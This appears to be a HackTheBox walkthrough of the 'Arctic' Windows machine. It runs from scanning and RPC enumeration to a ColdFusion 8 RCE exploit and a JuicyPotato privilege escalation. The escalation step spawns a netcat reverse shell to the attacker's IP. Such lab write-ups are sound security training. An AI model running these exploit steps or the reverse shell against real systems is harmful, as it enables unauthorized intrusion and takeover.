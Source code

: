 ```yaml
---
title: HTB | Arctic
author: Zeropio
date: 2023-01-04
categories: [Pentesting, HackTheBox]
tags: [htb, windows, easy, machines]
permalink: /pentesting/htb/machines/arctic
image:
  path: /assets/img/hackthebox/card/Arctic.png
  width: 800
  height: 500
---
```


# Fingerprint

## Scan

The scan show:

```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Scanning for the OS:

```
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (91%),
```

## Enumeration

We can enumerate both RPC services and found some remote code execution:

```console
$ rpcdump.py -p 135 10.10.10.11 | grep "atsvc"
          ncacn_np:\\ARCTIC[\PIPE\atsvc]
          ncacn_np:\\ARCTIC[\PIPE\atsvc]
          ncacn_np:\\ARCTIC[\PIPE\atsvc]
          ncacn_np:\\ARCTIC[\PIPE\atsvc]
          ncacn_np:\\ARCTIC[\PIPE\atsvc]
```

In the port 8500 we can found a web with the following contents:

```
CFIDE/               dir   03/22/17 08:52 μμ
cfdocs/              dir   03/22/17 08:55 μμ
```

If we go under `/CFIDE/administrator/`{: .filepath} we can found a ********ColdFusion******** login. Easily, a exploit can be found:

```console
$ searchsploit coldfusion                
------------------------------------------------------ ---------------------------------
 Exploit Title                                        |  Path
------------------------------------------------------ ---------------------------------
Adobe ColdFusion - 'probe.cfm' Cross-Site Scripting   | cfm/webapps/36067.txt
Adobe ColdFusion - Directory Traversal                | multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)   | multiple/remote/16985.rb
Adobe ColdFusion 11 - LDAP Java Object Deserializatio | windows/remote/50781.txt
Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object | windows/remote/43993.py
Adobe ColdFusion 2018 - Arbitrary File Upload         | multiple/webapps/45979.txt
Adobe ColdFusion 6/7 - User_Agent Error Page Cross-Si | cfm/webapps/29567.txt
Adobe ColdFusion 7 - Multiple Cross-Site Scripting Vu | cfm/webapps/36172.txt
Adobe ColdFusion 8 - Remote Command Execution (RCE)   | cfm/webapps/50057.py
```

---

# Footprint

## Initial Access

We will use the previous exploit changing the lhost for our IP. With this, we get an easy shell:

```console
$ python3 50057.py

. . . <SNIP> . . .

C:\ColdFusion8\runtime\bin>whoami
arctic\tolis
```

## Privilege Escalation

We can use JuicyPotato to exploit it:

```console
C:\Users\tolis\Documents>.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Users\tolis\Documents\nc.exe -e cmd 10.10.14.13 443"
```
